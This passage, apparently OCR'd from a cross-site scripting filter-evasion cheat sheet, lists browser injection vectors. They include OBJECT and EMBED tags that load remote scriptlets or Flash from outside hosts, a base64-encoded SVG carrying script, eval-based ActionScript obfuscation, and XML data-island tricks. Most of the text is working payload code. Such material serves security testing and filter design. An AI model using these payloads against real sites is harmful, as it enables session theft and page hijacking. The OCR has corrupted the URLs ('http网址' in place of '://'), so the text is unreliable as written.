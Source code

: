 ```js
<OBJECT TYPE="text/x-scriptlet" DATA="http网址xss.rocks/scriptlet.html"></OBJECT>
```

EMBED a Flash Movie That Contains XSS
Click here for a demo: http网址ha.ckers.org/xss.swf

```js
<EMBED SRC="http网址ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
```

If you add the attributes allowScriptAccess="never" and allownetworking="internal" it can mitigate this risk (thank you to Jonathan Vanasco for the info).

EMBED SVG Which Contains XSS Vector
This example only works in Firefox, but it’s better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.


```js
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv
MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

Using ActionScript Inside Flash for Obfuscation
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d);
```

XML Data Island with CDATA Obfuscation
This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

```js
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

```
Locally hosted XML with embedded JavaScript that is generated using an XML data island
This is the same as above but instead referrs to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

```js
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

```

HTML+TIME in XML
This is how Grey Magic hacked Hotmail and Yahoo!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:
